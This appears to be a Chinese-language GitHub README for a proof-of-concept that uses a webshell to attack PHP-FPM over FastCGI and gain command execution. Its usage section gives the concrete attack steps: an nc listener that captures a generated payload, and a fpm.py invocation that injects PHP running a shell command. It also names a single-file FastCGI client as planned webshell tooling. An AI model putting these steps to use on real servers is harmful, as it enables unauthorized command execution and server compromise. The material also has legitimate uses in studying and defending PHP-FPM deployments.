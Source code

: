 # 用WebShell攻击PHP-FPM

来自[@Medicean](https://github.com/Medicean) 大佬的文末一个想法 https://mp.weixin.qq.com/s/T_k_TVv6h7W8paZyHym-sw

快速实现了一个poc，可以实现命令执行

后续用单文件PHP实现一个Fastcgi Client，然后已知PHP文件就用WebShell自身，WebShell命令执行美滋滋

## 使用

测试 php7.3-fpm

```
echo "<?php echo 1; ?>" > /tmp/poc.php

nc -lvp 6666 > payload.txt

python fpm.py -c '<?php echo `id`; exit;?>' -p 6666 127.0.0.1 /tmp/poc.php
```

运行`poc.php`

```
php poc.php
```

![](poc.png)

## 参考

fpm.py 来自 https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)